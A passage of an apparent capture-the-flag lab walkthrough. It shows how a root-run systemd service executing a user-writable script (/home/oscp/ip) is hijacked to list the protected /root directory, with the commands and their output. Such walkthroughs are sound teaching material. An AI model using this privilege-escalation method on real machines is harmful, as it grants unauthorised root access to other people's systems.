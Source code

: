 To see how it is called we can run a grep search. The most likely spot to search is the `/etc/` directory:

``` bash
grep -r "/home/oscp/ip" /etc/
```

This returns:

``` text
/etc/systemd/system/ip-update.service:ExecStart=/home/oscp/ip
```

We can then check the `ip-update` service to see exactly how it is called.

``` bash
cat /etc/systemd/system/ip-update.service
```

Which returns:

``` text
[Unit]
Description=Write current ip addr to /etc/issue

[Service]
Type=oneshot
RemainAfterExit=true
ExecStart=/home/oscp/ip

[Install]
WantedBy=multi-user.target
```

Since no user information is present we know that the `ip` script is run as root. Since the script is in the oscp user directory we can rename the current script and create our own that will be run as root.

### Listing /root/ Files

The WordPress post tells us the flag is in the `/root/` directory. So the first step is to list all the files in that directory. Rename the current ip script, create a new one and make it executable:

``` bash
cd /home/oscp/
mv ip ip.old
touch ip
chmod +x ip
```

Edit the new ip script with the following:

``` bash
#!/bin/sh
ls -la /root/ > /home/oscp/ls.txt
```

Now reboot the virtual machine. When it reboots our script will be run and we see the following:

``` text
-bash-5.0$ cat ls.txt
total 64
drwx------  6 root root 4096 Jul 11 17:21 .
drwxr-xr-x 20 root root 4096 Jul 25 16:10 ..
-rw-------  1 root root  258 Jul 11 17:35 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jul  9 08:19 .cache
-rwxr-xr-x  1 root root  248 Jul 11 17:15 fix-wordpress
-rw-r--r--  1 root root   33 Jul  9 06:39 flag.txt
drwxr-xr-x  3 root root 4096 Jul  9 18:27 .local
-rw-------  1 root root 1893 Jul 11 17:21 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
```